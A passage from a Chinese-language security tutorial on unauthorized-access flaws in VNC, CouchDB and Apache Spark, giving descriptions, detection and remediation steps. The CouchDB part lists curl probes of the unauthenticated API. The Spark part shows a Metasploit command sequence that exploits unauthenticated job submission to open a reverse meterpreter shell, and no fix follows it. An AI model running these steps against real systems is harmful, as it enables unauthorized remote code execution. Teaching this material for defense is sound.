 **漏洞修复**

-   配置 VNC 客户端登录口令认证并配置符合密码强度要求的密码；
-   以最小权限的普通用户身份运行操作系统；

## 9. CouchDB 未授权访问（5984）

**漏洞简介**

Apache CouchDB 是一个开源数据库，默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

**漏洞检测**

1、端口扫描

2、未授权访问kali测试命令

curl 192.168.126.130:5984

curl 192.168.126.130:5984/\_config

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001lb4Dw0ztslv.jpg)

**漏洞修复**

指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 “bind\_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。 注：修改后只有本机才能访问CouchDB。

设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到`“[admins]”`字段配置密码。

设置 WWW-Authenticate，强制认证。

## 10. Apache Spark 未授权访问（6066、8081、8082）

**漏洞简介**

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动访问控制，攻击者可以在集群中执行任意代码。该漏洞的本质是未授权用户可以向Master节点提交一个应用，Master节点会分发给Slave节点执行应用。如果应用中包含恶意代码，会导致任意代码执行，威胁Spark集群整体的安全性。

**漏洞检测**

nmap扫描出如下端口开放，则很有可能存在漏洞

![](https://qqq.gtimg.cn/music/photo_new/T053XD000008zURM1eCnMZ.jpg)

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001xzw1y4KgLkd.jpg)

使用msf工具getshell

```shell
msf5>use exploit/linux/http/spark\_unauth\_rce

msf5>set payload java/meterpreter/reverse\_tcp

msf5>set rhost 192.168.100.2

msf5>set rport 6066

msf5>set lhost 192.168.100.1

msf5>set lport 4444

msf5>set srvhost 192.168.100.1

msf5>set srvport 8080

msf5>exploit
```
